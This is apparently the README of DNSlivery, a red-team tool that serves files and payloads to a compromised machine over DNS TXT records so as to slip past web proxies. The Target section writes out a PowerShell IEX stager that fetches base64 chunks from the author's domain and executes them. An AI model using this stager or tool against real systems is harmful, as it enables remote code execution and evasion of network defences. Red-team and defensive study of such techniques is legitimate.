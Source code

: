 # DNSlivery
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSLivery](#dnslivery)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.

![web-delivery-blocked.png](img/web-delivery-blocked.png)

Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 

![dnslivery-network.png](img/dnslivery-network.png)

As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to easily retrieve all base64 chunks and put them back together in their original format, DNSlivery will also generate a single cleartext stager per file.

![stager-delivery.png](img/stager-delivery.png)

Currently, only PowerShell stagers are supported.


## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving udp/53 traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSLivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```bash
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory like (`pwd` by default) and needs to be **run with root privileges** to listen for incoming `udp/53` packets.

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

## Target
On the target, start by **retrieving the stager** of the desired file by requesting its dedicated `TXT` record.

| Action  | Stager                     | Description                                           |
| ------- | -------------------------- | ----------------------------------------------------- |
| Print   | `[filename].[domain]`      | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]` | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]` | Save the delivered file to disk (useful for binaries) |

Then, simply **copy and paste the stager quoted in the response to a PowerShell console** to retrieve the file on the target.

**Example**:
```
PS> nslookup -type=txt file.exec.dnsd.no0.be
Server:  one.one.one.one
Address:  1.1.1.1

Non-authoritative answer:
file.exec.dnsd.no0.be   text =

        "IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((0..6 | % {Resolve-DnsName -type TXT -Name "file.$_.dnsd.no0.be" | Where-Object Section -eq Answer | Select -ExpandProperty Strings}))))"

PS> IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((0..6 | % {Resolve-DnsName -type TXT -Name "file.$_.dnsd.no0.be" | Where-Object Section -eq Answer | Select -ExpandProperty Strings}))))
Fight Bugs                      |     |
                                \\_V_//
                                \/=|=\/
                                 [=v=]
                               __\___/_____
                              /..[  _____  ]
                             /_  [ [  M /] ]
                            /../.[ [ M /@] ]
                           <-->[_[ [M /@/] ]
                          /../ [.[ [ /@/ ] ]
     _________________]\ /__/  [_[ [/@/ C] ]
    <_________________>>0---]  [=\ \@/ C / /
       ___      ___   ]/000o   /__\ \ C / /
          \    /              /....\ \_/ /
       ....\||/....           [___/=\___/
      .    .  .    .          [...] [...]
     .      ..      .         [___/ \___]
     .    0 .. 0    .         <---> <--->
  /\/\.    .  .    ./\/\      [..]   [..]
 / / / .../|  |\... \ \ \    _[__]   [__]_
/ / /       \/       \ \ \  [____>   <____]
```